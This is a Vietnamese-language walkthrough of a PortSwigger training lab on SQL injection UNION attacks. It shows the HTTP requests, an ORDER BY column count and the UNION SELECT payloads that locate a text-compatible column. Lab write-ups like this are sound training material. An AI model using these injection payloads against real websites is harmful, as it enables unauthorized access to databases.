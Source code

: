 # [Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Lỗ hổng: Phía server không có phòng thủ với SQLi, Sử dụng UNION để kiểm tra kiểu dữ liệu của cột trong bảng.

quá trình:
1. Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
	- `GET /filter?category=Accessories HTTP/1.1`
2. Kiểm tra SQLi:
	- `GET /filter?category=' HTTP/1.1`
	- ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3. Sử dụng UNION để kiểm tra số cột:
	- Gửi request đến intruder và test với payload từ 1 đến 10
	- `GET /filter?category='+ORDER+BY+§§-- HTTP/1.1`
	- Kết quả: ![07089cd66d55db47eaddedb656fc5d33.png](../../../../../../_resources/07089cd66d55db47eaddedb656fc5d33.png)
	- Lỗi từ số 4 => có 3 cột.
4. Sử dụng UNION để kiểm tra cột có kiểu dữ liệu string:
	- Với 3 cột, ta có thể inject `'UNION+SELECT+NULL,NULL,NULL--'
	- Thay từng giá trị null thành string mà đề bài cung cấp `g9mlxp`:
		- `'UNION+SELECT+'g9mlxp',NULL,NULL--'` -> 500
		- `'UNION+SELECT+NULL,'g9mlxp',NULL--'` -> 200 -> Lab Solved
		- `'UNION+SELECT+NULL,NULL,'g9mlxp'--'` -> 500